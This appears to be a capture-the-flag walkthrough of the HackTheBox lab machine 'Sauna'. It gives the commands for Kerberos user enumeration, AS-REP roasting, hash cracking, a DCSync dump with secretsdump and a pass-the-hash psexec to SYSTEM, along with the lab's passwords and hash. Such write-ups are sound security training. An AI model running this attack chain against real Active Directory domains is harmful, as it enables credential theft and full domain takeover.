 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Sauna (10.10.10.175)

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these employees' names and create a list with all possible usernames for everyone on the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" tocreate a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Now that we have a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication, and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration

For Post-Compromise Enumeration, we can use tools such as "_BloodHound_" or "_PlumHound_".

Let's use BloodHound in this case.

#### BloodHound

Running BloodHound's ingestor on the target:

```bash
bloodhound-python -d egotistical-bank.local -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all
```

Now we run BloodHound:

```bash
sudo neo4j console

sudo bloodhound
```

Next, we import our data into BloodHound and analyze the results:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>hsmith is a kerberoastable account</p></figcaption></figure>

Despite "_hsmith_" being a "kerberoastable" user, this account won't get us any further due to the fact it has fewer privileges than the "_fsmith_" account.

However, the SVC\_LOANMGR can perform a DCSync attack on the Domain Controller:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>DCSync Attack Capability</p></figcaption></figure>

So this user is high value if we're able to grab his credentials.

Let's go back to our shell and run winPEAS on the target to see if we can find anything interesting:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>svc_loanmanager credentials</p></figcaption></figure>

We have a plain text password for the user "_svc\_loanmgr_"



### Exploitation

Now that we have a valid set of credentials for the account svc\_loanmmgr, we can try to perform the DCSync attack we previously found this account was able to do.

To do this, we'll use "_secretsdump_":

```bash
secretsdump.py egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

This should dump all of the SAM Hashes for every user of that machine:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>SAM Dump</p></figcaption></figure>

Now we just try to crack the Administrator's hash:

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Hashcat couldn't crack the hash</p></figcaption></figure>

As we can see, our wordlist doesn't have the password that matches this hash. So, we'll need to take a different approach.&#x20;

We can try and perform a "_Pass-The-Hash_" attack, where we don't need to provide a password to log in as the user. In this attack, instead of providing a password for login, we'll provide the Hash and still be able to login:

```bash
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>We're system on the machine</p></figcaption></figure>



### Root Flag

Once we have system on the machine, we can simply navigate to the Administrator's desktop, where we'll find the Root Flag:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
